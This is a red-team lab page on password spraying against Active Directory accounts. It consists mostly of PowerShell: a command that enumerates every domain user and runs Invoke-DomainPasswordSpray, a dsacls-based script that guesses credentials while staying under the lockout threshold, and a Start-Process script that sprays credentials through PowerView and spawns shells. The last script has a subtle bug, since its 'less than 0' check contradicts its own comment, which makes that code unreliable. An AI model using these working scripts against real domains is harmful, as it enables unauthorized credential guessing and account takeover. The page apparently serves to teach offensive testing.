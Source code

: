 # Active Directory Password Spraying

This lab explores ways of password spraying against Active Directory accounts.

## Invoke-DomainSpray

{% code title="attacker@victim" %}
```csharp
Get-ADUser -Properties name -Filter * | Select-Object -ExpandProperty name |  Out-File users.txt
type users.txt
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-20-21-29-13.png)

{% code title="attacker@victim" %}
```csharp
Invoke-DomainPasswordSpray -UserList .\users.txt -Password 123456 -Verbose
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-20-21-32-37.png)

## Spraying using dsacls

While I was poking around with dsacls for enumerating AD object permissions

{% page-ref page="using-dsacls-to-check-ad-object-permissions.md" %}

I noticed that one could attempt to bind to LDAP using specific AD credentials, so a dirty AD password spraying POC came about:

{% code title="attacker@victim" %}
```csharp
$domain = ((cmd /c set u)[-3] -split "=")[-1]
$pdc = ((nltest.exe /dcname:$domain) -split "\\\\")[1]
$lockoutBadPwdCount = ((net accounts /domain)[7] -split ":" -replace " ","")[1]
$password = "123456"

# (Get-Content users.txt)
"krbtgt","spotless" | % {
    $badPwdCount = Get-ADObject -SearchBase "cn=$_,cn=users,dc=$domain,dc=local" -Filter * -Properties badpwdcount -Server $pdc | Select-Object -ExpandProperty badpwdcount
    if ($badPwdCount -lt $lockoutBadPwdCount - 3) {
        $isInvalid = dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:$_@offense.local /passwd:$password | select-string -pattern "Invalid Credentials"
        if ($isInvalid -match "Invalid") {
            Write-Host "[-] Invalid Credentials for $_ : $password" -foreground red
        } else {
            Write-Host "[+] Working Credentials for $_ : $password" -foreground green
        }        
    }
}
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-20-00-10-10.png)

## Spraying with Start-Process

Similarly to dsacls, it's possible to spray passwords with `Start-Process` cmdlet and the help of PowerView's cmdlets:

{% code title="spray-ldap.ps1" %}
```csharp
# will spray only users that currently have 0 bad password attempts
# dependency - powerview

function Get-BadPasswordCount {
    param(
        $username = "username",
        $domain = "offense.local"
    )
    $pdc = (get-netdomain -domain $domain).PdcRoleOwner
    $badPwdCount = (Get-NetUser $username -Domain $domain -DomainController $pdc.name).badpwdcount
    return $badPwdCount
}

$users = Get-netuser -properties samaccountname | Select-Object -ExpandProperty samaccountname
$domain = "offense.local"
$password = "123456"

Write-Host $users.Count users supplied; $users | % {
    $badPasswordCount = Get-BadPasswordCount -username $_ -Domain $domain
    if ($badPasswordCount -lt 0) {
        Write-Host Spraying : -NoNewline; Write-host -ForegroundColor Green " $_"
        $credentials = New-Object System.Management.Automation.PSCredential -ArgumentList @("$domain\$_",(ConvertTo-SecureString -String $password -AsPlainText -Force))
        Start-Process cmd -Credential ($credentials)
    } else {
        Write-Host "Ignoring $_ with $badPasswordCount badPwdCount" -ForegroundColor Red
    }
}
```
{% endcode %}

Enjoy the shells:

![](../../.gitbook/assets/spraying.gif)

## References

{% embed url="https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1" caption="" %}

{% embed url="https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon" caption="" %}

